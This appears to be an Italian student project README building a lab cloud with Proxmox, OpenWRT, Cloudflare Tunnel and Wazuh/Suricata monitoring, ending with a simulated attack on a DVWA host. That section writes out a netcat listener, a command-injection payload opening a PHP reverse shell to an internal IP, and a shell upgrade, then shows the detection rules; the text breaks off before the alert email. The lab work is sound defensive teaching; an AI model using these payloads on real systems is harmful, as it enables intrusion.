# Progetto Network Security (Criscuolo - Di Stazio)


## Introduzione

L'obiettivo di questo progetto è di simulare una piccola infrastruttura di **Cloud Computing**, costituita da semplici istanze VM a cui uno o più utenti possono accedere, per poi sfruttare in parallelo la piattaforma di monitoraggio e protezione **[Wazuh](https://wazuh.com/)**, al fine di automatizzare il processo di Intrusion Detection, garantendo la sicurezza degli utenti e delle VM stesse.


## Strumenti utilizzati

- L'infrastruttura è composta da un'istanza di **Proxmox Virtual Enviroment** (versione 8.3.1), che si occupa di hostare le VM Client, definire le interfacce di rete virtualizzate e istanziare gli strumenti di amministrazione di rete.
- Le VM Client sono tutte semplici istanze di Debian 12 Bookworm.
- Le VM Client sono connesse alla rete esterna e fra di loro tramite un'istanza di **[OpenWRT](https://openwrt.org/)** (versione 23.05.5), su cui sono configurate le policies di networking, le sottoreti e le regole di firewalling specifiche e generali. 
- Le VM Client sono accessibili da un ipotetico "User" dall'esterno tramite una webapp privata realizzata con l'uso degli [strumenti di Zero Trust forniti da Cloudflare](https://developers.cloudflare.com/cloudflare-one/), da cui possiamo associare ogni VM ad uno o più nomi di dominio per webapp (di tipo HTTP e/o SSH Browser): la scelta è stata effettuata puramente a fini di sviluppo, in un contesto realistico e non DIY un provider fornirebbe direttamente uno o più IP pubblici statici.
- Il monitoraggio tramite Wazuh è gestito tramite un server in esecuzione su un'apposita VM, mentre la comunicazione con i client è garantita dall'installazione nei suddetti di un apposito [**Wazuh Agent**](wazuh.com) e di [**Suricata**](https://suricata.io/). 
- Per permettere un accesso remoto all'infrastruttura intera durante sviluppo, abbiamo anche utilizzato un'istanza CT apposita su cui sono in esecuzione dei connettori [**Twingate**](https://www.twingate.com/): tramite essi abbiamo quindi definito un accesso Zero Trust per la configurazione da remoto e l'accesso ad istanze private, come il Server Wazuh. 
- Abbiamo infine deficato un Linux Container LXC dedito appositamente con server di posta **Postfix**, incluso di **Certbot** per i certificati SSL e di record DKIM tramite **OpenDKIM** per garantire l'invio di email: tramite ciò, il Server Wazuh sarà autonomamente in grado di inviare email di alert ad amministratori e/o utenti.

## Creazione dell'infrastruttura di rete

L'infrastruttura dei vari client è centralizzata attraverso l'uso di OpenWRT: esso funge da gateway, separando le varie istanze in
varie subnet sfruttando le vNICs generate tramite Proxmox. 
In tal modo, possiamo separare internalmente le singole macchine virtuali e soddisfare contemporaneamente molteplici clienti e/o creare infrastrutture a più nodi interconnessi. 



Nel nostro caso, abbiamo ipotizzato due subnet, una avente due client comunicabili fra di loro e una con un singolo client isolato.
OpenWRT, assieme ai vari strumenti di rete utilizzati per la gestione, il monitoraggio o anche solo lo sviluppo dell'infrastruttura, è connesso a sua volta alla rete esterna sfruttando un secondo router edge. Oltre ai suddetti è presente anche un server di posta elettronica realizzato in una VM dedicata tramite l'uso di Postfix, Dovecot e fail2ban.



## Fornire l'accesso esterno tramite SSH tramite chiavi
 
Come tutti sappiamo l'accesso ad SSH tramite credenziali è estremamente vulnerabile ad attacchi di tipo brute force o social engineering (ottenimento della password tramite persuasione/truffa/leaks di piattafrome online).
La prima cosa da fare è quindi disabilitarlo, modificando nel file **etc/ssh/sshd_config** il campo **PasswordAuthentication** = no, in questo modo la macchina virtuale non accetterà più autenticazione tramite password (è buona norma anche disattivare completamente l'accesso tramite ssh come utente root).

L'utente che vuole utilizzare la VM in SSH tramite il nostro servizio dovrà avere i seguenti requisiti:
- Indirizzo **e-mail** accessibile
- Un'account **github** con almeno una chiave pubblica caricata

Per caricare la chiave pubblica dell'utente (senza il bisogno che questi ce la invii, proteggendo così la sua privacy) sarà sufficiente importare le sue chiavi da github con il comando:

```bash
ssh-import-id gh:username
```

Per la gestione dei basilari use cases di una Virtual Cloud Instance, abbiamo utilizzato **Cloudflare Tunnel**, uno strumento di **Tunnelling** (connessione tramite incapsulamento e decapsulamento dei dati e delle intestazioni IP) che permette l'accesso remoto tramite nomi di dominio a servizi e webapp, il tutto in maniera sicura attraverso il principio dello **Zero Trust**.

Nel nostro caso, abbiamo quindi utilizzato Cloudflare Tunnel per rendere possibile l'accesso https ed ssh ai client.
Il cliente può pubblicare una pagina web sfruttando il subdomain fornitogli dall'aministratore del Cloudflare Tunnel. 
Per garantire un accesso privato in ssh, invece, l'amministratore deve creare un utente dalla piattaforma di gestione di Cloudflare e garantirgli il permesso di accesso al **webclient SSH** fornito da Cloudflare.\
Adesso l'utente potrà accedere tramite browser alla shell in modo sicuro, accede al WebClient tramite e-mail con 2FA e poi effettuando l'effettivo accesso all'istanza fornendo il suo username e la sua chiave privata (con passkey se necessario)






In alternativa, l'utente è libero di utilizzare una sua istanza per realizzare un server VPN a cui accedere senza usare il webclient Cloudflare come intermediario.

## Configurazione di Wazuh IDS

**Wazuh** è una piattaforma open source per la sicurezza informatica che serve a raccogliere, analizzare e correlare eventi e log provenienti da sistemi, applicazioni e dispositivi di rete.

Fornisce i seguenti servizi:

**IDS/IPS** (Intrusion Detection/Prevention System)
Analizza il traffico e i log alla ricerca di firme di attacco o comportamenti sospetti.

**FIM** (File Integrity Monitoring)
Controlla se file critici di sistema o configurazione vengono modificati o manomessi.

**Analisi di vulnerabilità**
Scannerizza i sistemi monitorati per scoprire software obsoleto o vulnerabile.

**Rilevamento malware e rootkit**
Integra controlli per scoprire processi o moduli malevoli.

**Conformità normativa**
Aiuta a rispettare standard come ISO 27001, GDPR, HIPAA, PCI-DSS ecc., fornendo report e regole predefinite.

**Agenti distribuiti**
Wazuh funziona con un manager centrale e tanti agenti leggeri installati sui vari server, workstation o container che raccolgono log e informazioni di sicurezza.

**Integrazione con Elastic/OpenSearch**
Per la parte di ricerca e visualizzazione, Wazuh si appoggia a un motore tipo ElasticSearch o OpenSearch, con dashboard interattive per analizzare gli eventi.

Il funzionamento principale di **Wazuh** nel nostro sistema di cloud è quello di **Monitoring** delle VM tramite degli appositi processi in background detti **Agent** che esaminano i log di sistema e riportano le informazioni al nodo centrale detto **Manager**, che provvederà successivamente ad analizzarle e classificarle in base alle **Configurazioni** scelte e inviare un **Alert tramite e-mail** (se ha a disposizione un server di posta*, come nel nostro caso) o procedere con una **Active Response** (se definita in precedenza).

*Container LXC con server **Postfix** certificato con **Certbot** e **OpenDKIM**, utilizza solo il protocollo **SMTP** per inviare e-mail. Non usa nessun protocollo in ricezione (**IMAP/POP3**).

Rimandiamo alla [documentazione ufficiale](https://documentation.wazuh.com/current/installation-guide/index.html) per l'installazione del manager, poiché è un procedimento abbastanza lungo non necessario per la nostra ricerca.

Una volta installato il **Manager** sarà possibile accedere alla **Dashboard** tramite browserx



Ora possiamo con grande semplicità fare il deploy degli **Agent** da installare su ogni VM



Usando la UI di wazuh il processo di deploy è quasi completamente automatizzato, una volta inseriti i dati richiesti (come nell'immagine) verrà prodotto un comando bash da eseguire sulla VM da monitorare:

```bash
wget https://packages.wazuh.com/4.x/apt/pool/main/w/wazuh-agent/wazuh-agent_4.11.0-1_amd64.deb && sudo WAZUH_MANAGER='192.168.1.105' WAZUH_AGENT_NAME='agent-007' dpkg -i ./wazuh-agent_4.11.0-1_amd64.deb
```

```bash
sudo systemctl daemon-reload
sudo systemctl enable wazuh-agent
sudo systemctl start wazuh-agent
```

Da questo momento possiamo monitorare lo stato delle VM:



E possiamo utilizzare anche tutte le altre funzioni rese disponibili da Wazuh (File Integrity, Vulnerability Scanning, Normative Compliance ecc..)

Per personalizzare e/o sfruttare alla massima potenzialità le funzioni di Wazuh come **IDS/IPS** o **SIEM** bisogna modificare la **Configurazione del Manager**



Da questa pagina è possibile editare il file **ossec.conf** (incluso in questa repository) e riavviare il Manager per attivare la nuova configurazione.

Questo file ha già al suo interno una configurazione di default, che noi possiamo alerare per aggiungere/rimuovere regole, Implementare active responses, incrementare/diminuire livelli di alert in corrispondenza di certi eventi.

Qui è indicato il riferimento ai ruleset per la generazione di alert:

```xml
    <ruleset>
        <!-- Default ruleset -->
        <decoder_dir>ruleset/decoders</decoder_dir>
        <rule_dir>ruleset/rules</rule_dir>
        <rule_exclude>0215-policy_rules.xml</rule_exclude>
        <list>etc/lists/audit-keys</list>
        <list>etc/lists/amazon/aws-eventnames</list>
        <list>etc/lists/security-eventchannel</list>

        <!-- User-defined ruleset -->
        <decoder_dir>etc/decoders</decoder_dir>
        <rule_dir>etc/rules</rule_dir>
    </ruleset>
```

Nel file **etc/rules** vi sono delle regole definibili dall'utente amministratore, per la generazione di alert personalizzati, es:

```xml
    <!-- Local rules -->

    <!-- Modify it at your will. -->
    <!-- Copyright (C) 2015, Wazuh Inc. -->

    <!-- Example -->
    <group name="local,syslog,sshd,">

    <rule id="100001" level="5">
        <if_sid>5716</if_sid>
        <description>sshd: authentication failed from IP ${srcip}</description>
        <group>authentication_failed,pci_dss_10.2.4,pci_dss_10.2.5,</group>
    </rule>

    </group>
```



Qui è riportata la regola che permette l'invio di **Alert tramite e-mail** sfruttando il server di posta implementato appositamente:

```xml
  <global>
    <jsonout_output>yes</jsonout_output>
    <alerts_log>yes</alerts_log>
    <logall>no</logall>
    <logall_json>no</logall_json>
    <email_notification>yes</email_notification>
    <smtp_server>192.168.1.103</smtp_server>
    <email_from>alert@pakisrv.com</email_from>
    <email_to>project.client.pakisrv@gmail.com</email_to>
    <email_maxperhour>12</email_maxperhour>
    <email_log_source>alerts.log</email_log_source>
    <agents_disconnection_time>10m</agents_disconnection_time>
    <agents_disconnection_alert_time>0</agents_disconnection_alert_time>
    <update_check>yes</update_check>
  </global>
```

Questa invece è la regola che permette a wazuh di accedere ai log di **Suricata**, un tool presente su alcune delle vm che permette di monitorare le attività di rete:

```xml
    <ossec_config>
        .
        .
        .
        <localfile>
            <log_format>json</log_format>
            <location>/var/log/suricata/eve.json</location>
        </localfile>
    </ossec_config>
```
Ci sarbbero ancora molte funzioni disponibili in **Wazuh** ma per adesso approfondiremo solo quelle viste durante la nostra simulazione di attacco.

## Simulazione di Attacco

**Scenario:**

Un **Utente malevolo** che ha accesso al **client-00** vuole attaccare il **client-01** che si trova sulla sua stessa sottorere.
Dopo una scansione **nmap**, scopre un **web server apache** attivo sulla porta 80 che ospita un'istanza di [DVWA](https://github.com/digininja/DVWA) un sito web **vulnerable by design** usato spesso come piattaforma di esercitazione per studenti di cyber security.

Una delle pagine del sito ha una vulnerabilità di **Command Injection** che permette di far eseguire codice **Lato Server**:



Se ci mettiamo in ascolto con **netcat**

```bash
nc -nlvp 4444
```

Possiamo inviare una **Reverse Shell** sulla porta 4444 del nostro utente malevolo, in modo da poter creare una sessione di terminale remota tramite una connessione **In uscita**, e quindi difficilmente rilevabile da un firewall (se non configurato specificamente).
Iniettiamo quindi il codice che ci permette di creare questa sessione:

```bash
127.0.0.1 && php -r '$sock=fsockopen("10.0.1.245",4444);`sh <&3 >&3 2>&3`;'
```
[Fonte](https://www.revshells.com/)

(127.0.0.1 è un qualsiasi indirizzo valido utilizzato per evitare messaggi di errore; "&&" indica la concatenzaione di comandi; il resto del comando fa eseguire del codice php che invia la sessione di terminale all'ip e alla porta specificate)

Se python è installato possiamo anche eseguire l'**upgrade della shell** con questo comando:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```


**SIAMO DENTRO!**
L'utente malevolo si è introdotto con successo all'interno di un altro host sulla sua stessa VLAN

**Entrano in gioco Wazuh e Suricata**

Infatti **Suricata** controlla le attività dell'interfaccia di rete del Client su cui è installato e attivo;
E **Wazuh** esamina i Log generati dall'attività di monitoring per poi generare un **Alert** in base a questa **Regola:**

<group name="surcata,local,">
    <rule id="100002" level="12">
        <if_sid>86601</if_sid>
        <field name="event_type">^alert$</field>
        <description>Suricata: Alert - $(alert.signature)</description>
        <options>no_full_log</options>
    </rule>
</group>

Ipotizzando un **Security Operetion Center**, L'operatore SOC (o l'utente della macchina violata) Riceverà la seguente e-mail pochi secondi dopo l'avvenuta intrusione:

